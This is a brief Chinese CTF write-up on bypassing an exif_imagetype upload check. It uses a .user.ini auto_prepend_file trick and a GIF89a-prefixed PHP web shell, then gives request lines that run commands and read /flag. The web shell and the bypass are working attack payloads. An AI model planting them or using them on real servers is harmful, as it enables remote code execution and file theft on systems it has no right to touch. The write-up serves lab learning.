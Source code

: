 又是随便点开的一个，好在，是文件上传。
## 1

常规步骤之后，上传了`.htaccess`文件，不过发现被限制了。
返回了一个：
```SQL
exif_imagetype:not image!
```
<a href=https://www.php.net/manual/zh/function.exif-imagetype.php>exif_imagetype函数</a>
简单来说就是，上传文件白名单机制。
QAQ
新英雄登场
`.user.ini`文件
php目录配置文件，作用为：
>当我们访问目录中的任何php文件时，都会调用.user.ini中指的文件以php的形式进行读取。
文件内容为
```ini
GIF89a
auto_prepend_file=po.jpg
```
之后就可以常规步骤一顿操作。

### 2

这里也有了新一种方法`用传进去的cmd 进行rce`——其前提是传入的木马文件内容为：
```script
GIF89a 
<script language='php'>eval($_REQUEST['cmd']);</script>
```
然后
```cmd
uploads/xxx/index.php?cmd=var_dump(scandir("/")); // 扫描当前目录下的文件，并打印出来

uploads/xxx/index.php?cmd=system('cat /flag');

uploads/xxx/index.php?cmd=var_dump(file_get_contents("/flag"));
```




-----
### 3
ps：图片文件头前缀（作用是？）

```txt
JPG:FF D8 FF E0 00 10 4A 46 49 46（16进制编码）
GIF：47 49 46 38 39 61（ascll值是GIF89a）
PNG： 89 50 4E 47

```

<a href=https://www.cnblogs.com/zhiliu/p/16825982.html>参考一下</a>
<a href=https://www.cnblogs.com/cjjcn/p/13954347.html>常见文件头/尾总结</a>
php解析文件值得关注